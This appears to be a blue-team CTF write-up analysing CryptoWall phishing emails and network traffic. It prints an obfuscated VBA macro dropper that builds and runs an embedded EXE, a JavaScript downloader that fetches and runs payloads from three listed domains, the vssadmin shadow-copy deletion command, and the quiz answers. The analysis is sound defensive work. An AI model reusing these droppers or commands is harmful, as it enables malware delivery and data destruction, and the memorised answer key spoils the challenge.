---


[https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-6/](https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-6/)





### CryptoWall {#3487b0eb61a48048bb48f39256601b66}

- Delivery: CryptoWall typically uses two main attack vectors:
	- Malspam: Sending phishing emails containing malicious attachments. They often masquerade as invoices or receipts (using fake `.zip`, `.pdf`, or `.chm` - Compiled HTML Help files).
	- Exploit Kits (EK): Exploiting browser vulnerabilities (Flash, Java) through kits like _Angler_ or _Nuclear_. This scenario relies on a Drive-by Download mechanism, which we often see when dissecting malicious network packets.
- Execution & Persistence: Upon successful infiltration, it copies itself into the `%APPDATA%` or `%TEMP%` directory and creates Registry keys (like `Run` or `RunOnce`) to ensure it always starts with the operating system. It also frequently "injects" malicious code into legitimate processes like `explorer.exe` or `svchost.exe` to bypass defense systems.
- Command & Control: Before starting encryption, it must communicate with the control server to retrieve the Public Key. CryptoWall uses separate encryption layers for this communication process to avoid being caught by Network Forensics tools.
- Encryption & Impact:
	- It uses extremely strong encryption algorithms (usually RSA-2048), turning documents, images, and databases into unreadable, meaningless data.
	- Characteristic behavior: It will call the command `vssadmin.exe Delete Shadows /All /Quiet` to delete all Windows Volume Shadow Copies. This is a fatal blow designed to prevent victims from recovering files for free.
- Extortion: It leaves text or HTML files (like `HELP_DECRYPT.txt`) in every encrypted folder, instructing the victim to download the Tor browser and pay the ransom in Bitcoin.

### Evolution Across Generations {#3487b0eb61a48091b858d5ebfabc0ec5}

- **CryptoWall 1.0 & 2.0:** Built the basic encryption foundation and integrated the Tor anonymity network to hide C2 servers.
- **CryptoWall 3.0:** Added the I2P (Invisible Internet Project) protocol—an anonymity network even more complex than Tor, making tracing the attacker's original IP almost impossible.
- **CryptoWall 4.0:** This was a "mental terrorism" upgrade. Instead of just encrypting file content, it also encrypts the file names (e.g., `quarterly_report_1.docx` turns into `12b8a7c2`). This causes extreme panic because victims don't even know what specific data they lost.

## Questions {#3487b0eb61a480529742e2cb892dbc12}


### Q1 c42-MTA6-1022-UTC: What is the attachment file name? {#3487b0eb61a480d6a1f3d87da1162ec2}





I extracted all the attachments from all the eml file. Clearly, the attachment stored in `c42-MTA6-1022-UTC` is:


> Homicide-case#9347728.zip


### Q2 c42-MTA6-1022-UTC: The attachment contains malware. When was the malware first submitted to virustotal? {#3487b0eb61a4809aa111fed5b17028c4}


Calculate the hash and submit to virustotal


> `2015-09-11 10:26:43`


### Q3 c42-MTA6-1022-UTC: Provide the FQDN contacted by the malware? {#3487b0eb61a4800f9b9beff53db50bc7}





> icanhazip.com


### Q4 c42-MTA6-1422-UTC: What was the malicious document's creation time? (one space between date and time). {#3487b0eb61a480ba8b68cb70f7491249}


**Using** the same method as **in** previous questions, **I** extracted the malicious document named `Patricia_Daniel_resume.doc`, **calculated its** hash, **and uploaded it** to VirusTotal:


> 2015-06-24 11:31


### Q5 c42-MTA6-1422-UTC: Which stream contains the macro? (provide stream number). {#3487b0eb61a480b9b632eca6e2d468ed}


Using oledump, we can easily deduce the answer: 





> 3


### Q6 c42-MTA6-1422-UTC: What is the sha256 hash of the executable malware? {#3487b0eb61a480ab9735fac5a2574699}


I continued using oledump to extract the stream containing the malicious VBA:


```powershell
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Sub Auto_Open()
     zGCwkKBGTOs
End Sub

Sub zGCwkKBGTOs()
     Dim ezbVRLGmmo As String
     Dim iqvhxHmFSdrrP As String
     Dim iYwihdJA As Integer
     Dim bvNUjgU As String
     Dim VBJeJNNj As Byte
     Dim dRZAVyCRqn As Paragraph
     Dim XhnzHZgleilRL As Long
     Dim CAMGDebZMD As Integer
     Dim splRmDLtFg As String
     Dim eOqQRgYctMzmuZ As String
     Dim dsuvHC As String
     Dim MniQXWEhfv As Boolean
     Dim QbhrXGT As Integer
     bvNUjgU = "zqnuhsi&H46&H55&H43&H4B2&H047&H44&H41&H54&H41&H21"
     splRmDLtFg = "exe"
     eOqQRgYctMzmuZ = "iaEhcYUCk" + "o"
     HHRSydvjwaq = "."
     ezbVRLGmmo = eOqQRgYctMzmuZ + HHRSydvjwaq + splRmDLtFg
     YqPyWrU
     iYwihdJA = FreeFile()

     AGRVOkemteQ

     Debug.Print ("After OnTime: " & Now)

     Dim opobUCTy As String
     Dim LyunJq As String
     Dim cBFXXhV As String
     Dim dtxmeZtrxOLted As String
     Dim XtibNFnRE As Document
     Set dEqXIBDNuKqF = CreateObject("Sc" + "riptContro" + "l")
     dEqXIBDNuKqF.Language = "VBS" + "cri" + "p" + "t"
     opobUCTy = "ActiveDocumen" + "t" + "."
     cBFXXhV = "Paragraph" + "s"
     LyunJq = opobUCTy + cBFXXhV
     Set VeZpOpVh = GetObject(, "word" + ".Applic" + "atio" + "n")
     On Error GoTo JFhYAolPD
     dEqXIBDNuKqF.AddObject "Obj", VeZpOpVh

     Dim FwKeQXNgqxMxvnL As Boolean
     FwKeQXNgqxMxvnL = False
     Dim DhvFHjK As Boolean
     DhvFHjK = True

JFhYAolPD:
     For Each dRZAVyCRqn In dEqXIBDNuKqF.Eval("Obj." & LyunJq)
          hPuJZIlGpcz (dRZAVyCRqn)
          iqvhxHmFSdrrP = dRZAVyCRqn.Range.Text
          Debug.Print ("After OnTime: " & Now)
          If (MniQXWEhfv = True) Then
               XhnzHZgleilRL = (37 - 36)
          Dim VCAMcIBwsA As Integer
          VCAMcIBwsA = (68 - 64)
               While (XhnzHZgleilRL < Len(iqvhxHmFSdrrP))
                    VBJeJNNj = Mid(iqvhxHmFSdrrP, XhnzHZgleilRL, VCAMcIBwsA)
                    Debug.Print ("After OnTime: " & Now)
                    Put #iYwihdJA, , VBJeJNNj
                    XhnzHZgleilRL = XhnzHZgleilRL + (7 - 3)
               Wend
          ElseIf (InStr((88 - 87), iqvhxHmFSdrrP, bvNUjgU) > (64 - 64) And Len(iqvhxHmFSdrrP) > (27 - 27)) Then
               MniQXWEhfv = DhvFHjK
          End If
          Next
     Debug.Print ("After OnTime: " & Now)
     If (FwKeQXNgqxMxvnL = True) Then
          MsgBox ("FUCK AV")
     Else
          Close #iYwihdJA
     End If
     HYUzMcPhknOwSHA (ezbVRLGmmo)
End Sub

Sub AutoOpen()
     Auto_Open
End Sub

Sub HYUzMcPhknOwSHA(ezbVRLGmmo As String)
     Dim dsuvHC As String
     Dim dphUNjFKvsin As Object
     Dim QbhrXGT As Integer
     dsuvHC = Environ("USERPROFIL" + "E")
     ChDrive (dsuvHC)
     ChDir (dsuvHC)

     Debug.Print ("After OnTime: " & Now)

     Set dphUNjFKvsin = VBA.CreateObject("WSc" + "ript" + ".She" + "l" + "l")
     On Error Resume Next
     dphUNjFKvsin.Run (ezbVRLGmmo)
     TdkFfShCkIHO
End Sub

Sub hPuJZIlGpcz(fVXCWogxUYsIi)
     DoEvents
End Sub

Sub AGRVOkemteQ()
     Dim splRmDLtFg As String
     Dim ezbVRLGmmo As String
     Dim eOqQRgYctMzmuZ As String
     Dim iYwihdJA As Integer
     Dim HHRSydvjwaq As String
     eOqQRgYctMzmuZ = "iaEhcYUCko"
     HHRSydvjwaq = "."
     splRmDLtFg = "exe"
     ezbVRLGmmo = eOqQRgYctMzmuZ + HHRSydvjwaq + splRmDLtFg
     iYwihdJA = FreeFile()
     Open ezbVRLGmmo For Binary As iYwihdJA
End Sub

Sub TdkFfShCkIHO()
     Word.ActiveDocument.Range.Select
     Selection.WholeStory
     Selection.Delete Unit:=wdCharacter, Count:=(53 - 52)
     Dim hnyvtVpsnYB As Word.Document
     Set hnyvtVpsnYB = ThisDocument
     hnyvtVpsnYB.Range.InsertParagraphAfter
     hnyvtVpsnYB.Range.InsertAfter "" + vbLf
End Sub

Sub YqPyWrU()
     dsuvHC = Environ("USERPRO" + "FIL" + "E")
     ChDrive (dsuvHC)
     ChDir (dsuvHC)
End Sub

Sub Workbook_Open()
     Auto_Open
End Sub
```


1. The Trigger and Setup

	- When user opens the document, `Sub Auto_Open()` automatically executes. It defines the name of the file it wants to create:
		- `splRmDLtFg = "exe"`
		- `eOqQRgYctMzmuZ = "iaEhcYUCk" + "o"`
	- Combined, it creates the target filename: **`iaEhcYUCko.exe`**.
	- It uses the `AGRVOkemteQ` function to silently create an empty binary file with this name in `%USERPROFILE%` directory.

2. Hunting for the "Marker"

- The script then loops through every paragraph in the Word document looking for a specific signature string (defined as `bvNUjgU`):
	- `zqnuhsi&H46&H55&H43&H4B2&H047&H44&H41&H54&H41&H21`

	

- Here is the screenshot of the malicious document. You can clearly see that the string is right before the payload, which starts with the Magic Bytes `4D 5A`
- Once the script finds this marker, it flips a switch (`MniQXWEhfv = True`) to tell the program: _"The next block of text is the payload. Start decoding."_

3. Decoding the Payload

- The script extracts these numeric chunks, converts them into raw `Byte` data type, and uses the `Put` command to inject them directly into the empty `iaEhcYUCko.exe` file it created earlier.
- Once the end of the paragraph is reached and the `.exe` is fully assembled:
	- **Execution:** It calls `HYUzMcPhknOwSHA()`, which uses `WScript.Shell.Run` to silently launch `iaEhcYUCko.exe` in the background.
	- **The Cover-Up:** It calls `TdkFfShCkIHO()`, which highlights the entire Word document and deletes all the text (`Selection.Delete`). To the victim, the document simply appears to open and then suddenly go blank, hiding the ugly block of numbers and the marker string from view so they don't get suspicious.

Extracting IOCs

- Extracting IOCs (Indicators of Compromise)
- Process Lineage: `WINWORD.EXE` -&gt; `cmd.exe` (or `wscript.exe`) -&gt; `iaEhcYUCko.exe`
- Suspicious VBA Keywords: `ScriptControl`, `Put#`, `FreeFile`, `WScript.Shell`, `.Delete Unit:=wdCharacter`

I extracted the exe file and used cyberchef to convert the payload to binary 





And calculate the hash:


> 09cce2a039bf72e9c9896e475556563c00c467dc59d2535b0a0343d6741f9921


### Q7 c42-MTA6-1557-UTC: What is the full URL of the fake login page? {#3487b0eb61a480d1bf95c386239e808a}





→ View source:





> http://www.smkind.co.za/Images/Buttons/13v.php


### Q8 c42-MTA6-1839-UTC: How many domains are present in the JS file? {#3487b0eb61a4808bbb11f1aab91d793e}


I opened the file and extracted the attachment... This yielded a JS file which is heavily obfuscated





I used AI to parse the file: 


```c++
// 1. List of C2/Payload servers
var b = "ihaveavoice2.com laterrazzafiorita.it idsecurednow.com".split(" ");

// 2. Initialize WSH objects and create a random file path
var ws = new ActiveXObject("WScript.Shell");

// Use Math.random() to generate a random file name (e.g., C:\Users\Admin\AppData\Local\Temp\12345678.exe)
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + Math.round(Math.random() * 100000000) + ".exe";
var xo = new ActiveXObject("MSXML2.XMLHTTP");
var xa = new ActiveXObject("ADODB.Stream");
var dn = 0;

// 3. Payload download loop
for (var i=0; i<b.length; i++) {
    try {
        // Send GET request to download the malware
        xo.open("GET", "http://" + b[i] + "/document.php?rnd=" + fr + "&id=" + str, false);
        xo.send();

        // Check for a successful connection (Status 200)
        if (xo.readyState == 4 && xo.status == 200) {
            xa.open();
            xa.type = 1; // adTypeBinary
            xa.write(xo.responseBody);

            // Check if the downloaded file size is greater than 5000 bytes (5KB)
            if (xa.size > 5000) {
                dn = 1;
                xa.position = 0;
                xa.saveToFile(fn, 2); // Overwrite if the file already exists
                
                try {
                    // Execute the Payload
                    ws.Run(fn, 1, 0);
                } catch (er) {};
            }
            xa.close();
        }
        if (dn == 1) break;
    } catch (er) {};
}

// 4. Trigger the function with a random parameter
dl(682461);
```


The scrtipt tries to create a random exe file in user %TEMP% folder. It then tries to download the payload from one of the three domains and executes it.


> There are `3` domains


### Q9 c42-MTA6-1839-UTC: The JS code is checking for a specific HTTP response code. What is the response code being checked? {#3487b0eb61a4801798bbd4372c1ee638}


As we’ve analyzed:


```powershell
 if (xo.readyState == 4 && xo.status == 200)
```


> 200


### Q10 The victim received multiple emails and opened only one of them. Which one did he open? (provide the full eml file name). {#3487b0eb61a48073846df98fb19cef63}


I use wireshark and networkminer for basic triage:


| 104.28.9.93 [www.prideorganizer.com.cdn.cloudflare.net] [www.prideorganizer.com]         | 192.168.137.56 [Franklion-PC] [FRANKLION-PC] (Windows) |   |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------ | - |
| 192.168.137.56                                                                           | 204.79.197.200 bing                                    |   |
|                                                                                          | 216.58.216.67 google                                   |   |
|                                                                                          | 216.245.212.78 [randt.smittysautomart.org]             |   |
|                                                                                          | 216.58.216.78 google                                   |   |
| 31.13.74.52 [scontent-a.cdninstagram.com] [scontent-b.cdninstagram.com]                  | 192.168.137.56                                         |   |
| 67.222.30.115 [mergersandinquisitions.com] [www.mergersandinquisitions.com]              |                                                        |   |
| 128.177.96.56 akamai                                                                     |                                                        |   |
| 69.49.96.13 [altmangc.com]                                                               |                                                        |   |
| 23.235.44.249 [fallback.global-ssl.fastly.net] [global-ssl.fastly.net] [fast.wistia.com] |                                                        |   |
| 31.13.74.1 facebook                                                                      |                                                        |   |





The victim computer is: 192.168.137.56 [Franklion-PC] [FRANKLION-PC] (Windows) because 
 it initiated a large volume of internet connections to various suspicious domains.





Also i calculated the hash of the provided CryptoWall* files, and one of them had the same SHA-256 hash as the file in Q6 -`09cce2a039bf72e9c9896e475556563c00c467dc59d2535b0a0343d6741f9921`


